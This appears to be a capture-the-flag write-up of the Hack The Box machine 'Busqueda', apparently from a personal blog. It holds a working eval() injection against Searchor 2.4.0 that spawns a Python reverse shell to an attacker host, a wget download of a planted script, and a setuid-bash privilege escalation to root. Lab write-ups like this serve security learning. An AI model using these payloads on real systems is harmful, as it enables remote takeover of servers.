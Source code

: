 ```yaml
---
title: "Hack The Box - Busqueda [Easy]"
date: 2023-06-10T19:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


This machine is rather simple, upon scanning it we can see that the website has a generating search query URLs input form. On the bottom of the page, we can see the versions of the used software:

```
Powered by Flask and Searchor 2.4.0

$ whatweb 
Bootstrap[4.1.3], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.1.2 Python/3.10.6], IP[10.10.11.208], JQuery[3.2.1], Python[3.10.6], Script, Title[Searcher], Werkzeug[2.1.2]
```

A simple google search would yield a bug that has been removed in Searchor 2.4.2+ and before that `eval()` was used in the Searchor CLI module. Assuming that the website uses that, we can send the following payload:

```bash
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=Accuweather&query=',copy_url=__import__('os').system(""" python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<myip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' """))
```

This would create a reverse shell to the machine. 

The currently used user is `svc` upon running 

```bash
$ sudo -l
```

 We can see that we can use this command:
 
```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

I also discovered the `/opt/scripts` folder that had some scripts inside, including `full-checkup.sh`, I've run the command in the `/opt/scripts/` folder, and it successfully retrieved some information about the currently running services, I tried to run it in a different folder, and it gave me `Something went wrong`, I've created a dummy `full-checkup.sh` with `chmod +s /bin/bash` contents inside and ran the command again, it just printed out `[+] Done` and after that a simple `bash -p` gave me root user. 

```bash
$ cd /tmp && wget http://<ip>:8000/full-checkup.sh && chmod +x ./full-checkup.sh 
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
$ bash -p
$ cat /root/root.txt
```
